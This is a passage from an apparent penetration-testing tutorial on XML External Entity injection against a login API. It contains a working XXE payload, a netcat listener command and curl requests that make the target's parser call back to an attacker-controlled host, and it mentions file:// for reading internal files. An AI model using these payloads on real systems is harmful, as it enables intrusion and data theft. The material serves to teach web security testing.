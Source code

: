 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

We defined a DTD called pwn, and inside of that, we have an ENTITY. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the ENTITY name and its value.

We have called our external entity somename, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as file:// to call internal files.

Let us set up a Netcat listener as follows:

```bash
nc -nlvp 4444
```

Now let us make an API call containing the payload we crafted above:

```bash
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'



<p>Sorry, we cannot find a account with <b></b> email.</p>
```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows:

```bash
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```